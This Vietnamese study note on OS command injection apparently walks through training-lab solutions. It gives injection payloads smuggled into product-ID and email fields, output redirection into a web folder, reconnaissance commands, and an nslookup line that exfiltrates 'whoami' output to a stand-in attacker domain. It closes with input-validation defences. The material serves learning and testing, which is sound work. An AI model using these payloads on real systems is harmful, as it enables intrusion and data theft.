




# OS command injection

## Khái niệm

> 

---

## OS command injection là gì?

> OS command injection (hay còn được gọi là shell injection) là 1 vul web cho phép attacker thực thi command trên OS (HĐH) tùy ý trên server và xâm phạm, lấy cắp data.

> Thông thường attacker có thể lợi dụng vul để xâm phạm các thành phần khác, khai thác các mối quan hệ

---

## Executing arbitrary commands

> Xem xét ứng dụng shopping sau để xem mặt hàng có còn trog shop hay không:
>
> ```
> https://insecure-website.com/stockStatus?productID=381&storeID=29
> ```

> Để cung cấp thông tin mặt hàng, app phải query các system kế thừa nhau. Các chức năng có thể gọi bằng shell:
>
> ```
> stockreport.pl 381 29
> ```

> Vì app không triển khai các biện pháp bảo vệ nên có thể đưa shell vào OS:
>
> ```
> & echo aiwefwlguh &
> ```

> Nó sẽ execute:
>
> ```
> stockreport.pl & echo aiwefwlguh & 29
> ```

> `echo` chỉ là lệnh in cơ bản, đây là cách hữu ích để thử exploit. `&` để phân tách chuỗi trong shell. Kết quả:
>
> ```
> Error - productID was not provided
> aiwefwlguh
> 29: command not found
> ```

> 3 Dòng đầu chứng minh rằng:
>
> `stockreport.pl` không được thực thi là do thiếu đối số
>
> `echo` vẫn được execute
>
> `29` nó là không phải command

### Lab: OS command injection, simple case

> Des: Lab này chứa vul OS command injection trong check sản phẩm. Ứng dụng thực thi một lệnh shell với id của sản phẩm. Để solve hãy thực hiện lệnh `whoami` tại người dùng hiện tại

> Bài này chỉ cần vào check stock rổi thay đổi param thêm `|whoami` là oke:
> 

---

## Useful commands

> Khi đã exploit được vul thì dưới đây là một số lệnh hữu ích trên nền tảng linux và window:
>
> Purpose of command | Linux | Windows
>
> Name of current user | whoami | whoami
>
> Operating system | uname -a | ver
>
> Network configuration| ifconfig | ipconfig /all
>
> Network connections | netstat -an | netstat -an
>
> Running processes | ps -ef | tasklist

---

## Blind OS command injection vulnerabilities (Lỗ hổng chèn lệnh hệ điều hành mù)

> Ứng dụng không trả về kết quả trong response, nhưng vẫn có thể exploit bằng chèn mù nhưng cần các kĩ thuật khác nhau

> Xem xét 1 web cho user gửi feedback về web. User gửi phản hồi và email của họ. Sau đó phía server tạo mail và gửi về admin web:
>
> ```
> mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
> ```

---

## Detecting blind OS command injection using time delays (Phát hiện đưa lệnh mù vào hệ điều hành bằng cách sử dụng độ trễ thời gian)

> Có thể inject lệnh đưa vào sẽ kích hoạt time delays. Lệnh `ping` là 1 cách hiệu quả để thực hiện việc này vì nó cho phép chỉ định số lượng ICMP cần gửi do đó thời gian cần thiết để chạy lệnh:
>
> ```
> & ping -c 10 127.0.0.1 &
> ```

> Lệnh này sẽ khiến ứng dụng ping bộ điều hợp mạng loopback trong 10 giây.

### Lab: Blind OS command injection with time delays

> Des: Chứa vul blind OS command inject tại submit feedback. Chứa thực thi shell, output không được response. Để solve hãy exploit blind os command injection gây là delays 10s

> Dùng burp và chặn sửa request tại param email: `email:x||ping+-c+10+127.0.0.1||` > 

> Đợi 10s sau burp sẽ response và qua web sẽ solve được:
> 

---

## Exploiting blind OS command injection by redirecting output

> Có thể redirect output từ command được đưa từ trong folder root.
>
> Ví dụ muốn lấy file từ folder : `/var/www/static`:
>
> ```
> & whoami > /var/www/static/whoami.txt &
> ```

> Kí tự `>`gửi result từ command `whoami` đến tệp được chỉ định.

### Lab: Blind OS command injection with output redirection

> Des: Lab này chứa vul OS command injection trong function feedback

> App sẽ thực thi các shell mà user nhập vào.Output không được trả về trong response. Tuy vậy có thể redirect để nắm bắt command :
>
> ```
> /var/www/images/
> ```

> Để solve thì thực hiện command `whoami`

> Ban đầu nhập vào để submit feedback:
> 

> Chặn và sửa field email, ta sẽ viết command `whoami` vào file exploit.txt và lưu trong path `/var/www/images`:
>  

> Response:
> 

> Về trang chủ và dùng burp để chặn bắt nó:
>  

> Thấy path của `/image?filename=x` ta send sang repeater và đổi thành file exploit.txt vừa sửa:
> 

> Chuyển sang off và nhận kết quả:
>  

---

## Exploiting blind OS command injection using out-of-band (OAST) techniques

> Có thể sử dụng một lệnh được đưa vào sẽ kích hoạt tương tác `out-of-band` với system mà bạn kiểm soát, sử dụng các kỹ thuật `OAST`:
>
> ```
> & nslookup kgji2ohoyw.web-attacker.com &
> ```

> payload sử dụng command `nslookup` để thực hiện tra cứu DNS cho miền được chỉ định. Attacker có thể theo dõi việc tra cứu đang diễn ra, do đó phát hiện rằng lệnh đã được đưa vào thành công

### Lab: Blind OS command injection with out-of-band interaction

> Des: Lab này dính vil OS command injection tại chức năng feedback.
>
> Ứng dụng thực thi shell do user nhập vào. Command thực thi không đồng bộ và k ảnh hưởng tới response của app. Không thể redirect ra vị trí mà mong muốn. Tuy nhiên có thể kích hoạt `out-of-band` để tương tác với miền bên ngoài
>
> Để solve thì exploit và đưa ra DNS cho `Burp Collaborator`

> Bài này chỉ cần chặn lúc submit feedback và sửa field email:
>
> ```
> email=x||nslookup+link||
> ```
>
>  

> `out-of-band` cũng cung cấp một cách dễ dàng để lọc đầu ra từ các command đưa vào:
>
> ```
> & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
> ```

> Điều này sẽ thực hiện tra cứu DNS với miền của attacker chứa kết quả của lệnh `whoami`:
>
> ```
> wwwuser.kgji2ohoyw.web-attacker.com
> ```

---

### Lab: Blind OS command injection with out-of-band data exfiltration

> Des: Lab này chứa vul tại feedback. cho phép user thực hiện shell, nhưng không bất đồng bộ và làm ảnh hưởng tới response. Không thể redirect. Tuy nhiên có thể kích hoạt tương tác ngoài băng tần với domain ngoài

> Để solve hãy thực hiện command `whoami` và trích xuất DNS với Burp Collaborator. Nhập tên của user hiện tại

> Bài này chặn submit feedback và sửa field email:
>
> ```
> email=||nslookup+`whoami`.site||
> ```
>
>  

---

## Ways if injecting OS commands

> Có nhiều kí tự có thể sử dụng để exploit OS command. Một số kí tự có chức năng như phân tách command hoặc nối chuỗi:

> Dưới đây là dấu phân tách command dành cho Windows và Unix:
>
> ```
> &
> &&
> |
> ||
> ```

> Chỉ hoạt động trên Unix:
>
> ```
> ;
> Newline (0x0a or \n)
> ```

> Dùng $ để thực hiện nội dung định tuyến một command:
>
> ```
> `
> injected command `
> $(
> injected command )
> ```

---

## Phòng chống:

> Cách tốt nhất là không gọi command OS từ application-layer code.

> Nếu không thể tránh khỏi việc gọi ra các OS command từ user nhập vào thì phải validate input:
>
> - Xác thực whitelist với các giá trị được cho phép
> - Xác thực đầu vào với number
> - Xác thực input với các kỹ tự chữ và số, không có cú pháp hoặc khoảng trắng
